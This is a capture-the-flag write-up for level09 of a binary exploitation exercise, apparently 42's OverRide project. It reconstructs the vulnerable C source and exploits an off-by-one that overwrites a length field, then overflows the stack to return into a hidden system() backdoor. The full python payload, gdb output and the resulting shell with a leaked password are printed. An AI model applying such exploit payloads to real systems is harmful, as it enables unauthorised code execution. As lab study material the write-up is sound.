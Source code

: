 # level09

### First analysis

For this first and only bonus, this last level of override, and the last level of the cybersecurity branch, of 42 let's analyse the checksec and the code as always starting with the checksec:

```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

This time no stack canary, so we can overflow buffers as we want, shouldn't be a problem, we have a Partial RELRO, we described enough this parameter to know that it doesn't protect a lot the GOT exploit. However we have NX enabled, which means the stack won't be executable probably, and also PIE enabled which is an option we never encountered before. What PIE does when enabled is that it randomize the addresses to avoid fix addresses in the code. PIE means Position Independent Execution and what it does is that it create an offset, apply it to every address of the code, so we can't know where a function's address is for instance. However this offset can be found in the stack so if we have a way to read the stack with the code, shouldn't be that much of a problem.

Now for the code:

```c
typedef struct  s_msg {
    char    msg[140];
    char    username[40];
    int     len;
}   t_msg;

void    secret_backdoor() {
    char    cmd[128];

    fgets(cmd, sizeof(cmd), stdin);
    system(cmd);
}

void    set_username(t_msg *msg) {
    char    username[128];

    memset(username, 0, 128);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(username, 128, stdin);

    for (int i = 0; i <= 40 && username[i]; i++) {
        msg->username[i] = username[i];
    }
    printf(">: Welcome %s", msg->username);

    return;
}

void    set_msg(t_msg *msg) {
    char    buffer[1024];

    memset(buffer, 0, 1024);
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(buffer, 1024, stdin);
    strncpy(msg->msg, buffer, msg->len);

    return;
}

void    handle_msg() {
    t_msg   *msg;

    memset(msg->username, 0, 40);
    msg->len = 140;
    set_username(msg);
    set_msg(msg);
    puts(">: Msg sent!");

    return;
}

int main(void) {
    puts("--------------------------------------------\n");
    puts("|   ~Welcome to l33t-m$n ~    v1337        |\n");
    puts("--------------------------------------------");
    handle_msg();

    return 0;
}
```

So we have a basic program that only call handle_message() which will call 2 functions, set_username() and set_msg(). All the data is stored in a structure msg, that contains a message of 140 chars, a username of 40 chars and a length, simply an int. set_username() will just ask the user to input a username, and will store it in msg->username, and set_msg() will just ask another input to the user, then copy the buffer into msg->msg. msg->len is a constant set at 140 and the user can't interact with it. That's what the program is about.

Now there are a few things to notice quickly, first there is a "secret_backdoor" function that is never called in the code but still present. Everytime we had a functions not called by the program in this cybersecurity branch, we had to redirect the code to this function, plus here this secret_backdoor() literally call system() with an input the user can choose. The solution is certainly here (if it's not a bait). We can also notice that username is filled until length <= 40, not length < 40, which means there is no \0 placed in here, and the input goes 1 too far into username filled, so we have an overflow of 1 character.

Finally we can notice that strncpy uses msg->len as the length it has to copy into msg->msg. Which means if we could change msg->len, we could maybe overflow msg->msg.

### Solution

With these 3 elements we probably have the solution, we need to access secret_backdoor(), so first let's find its address. Since only PIE is activated and not ASLR on this machine, that's definitely gonna be easier:

```sh
(gdb) x secret_backdoor
0x88c <secret_backdoor>:	0xe5894855
(gdb) run
Starting program: /home/users/level09/level09
(gdb) x secret_backdoor
0x55555555488c <secret_backdoor>:	0xe5894855
```

As we can see the address changed between the moment the program is loaded and the moment it is run, that is because of PIE, however we launched the program a few times and the address seems to be the same. It is always 0x55555555488c, a 64bit address (this ELF is a 64bit compiled program). So let's consider that this address will somehow be constant.

Then we have to understand what happen in memory when dealing with structure. What it does is create a memory space for it and put every field side to side which means in memory we will have:

```
[    msg 140    ][   username 40   ][   len 4   ]
```

With that we can notice that username field is just next to len field, also if username fills its field one too far, it means that it will overwrite the first byte of len, and so change the size that we can copy in msg. If we set the last char of username ad "0xff" we could enter a very large number of data in username, enough to do whatever we want being limitless. Let's first try our theory and see if we can at least provoke a segfault and maybe even detect where the return address is if we do it right.

```sh
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 140 + "B" * 160'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Segmentation fault (core dumped)
```

So we wrote 40 chars in username and added 0xff at the end, then we tried to write 300 chars in msg to see how it goes, and it segfault which is a great news ! Now let's find the actual index of the return address with our knowledges accumulated through these projects. In the memory we are gonna have as we said 140 chars for msg, 40 chars for username and 4 chars for len. Added to that 8 bytes (we are in 64bits so yes 8 not 4 bytes for addresses) for RBP (equivalent of EBP in 64bits), 8 bytes again for RIP, so in total 200 bytes, since we are not entirely sure of this calculation we are gonna try with 192, 200, 208 and 216 just in case we forgot something. On this payload we also have to add the secret_backdoor() address and the input we wanna give in this function which will obviously be /bin/sh to get a shell as end user. The payload will look like something like that:

```sh
python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 192 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"
```

After testing a little bit we end up getting this with 200 of padding:

```sh
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

end@OverRide:~$ cat end
GG !
```

This project is now over.

## Important doc
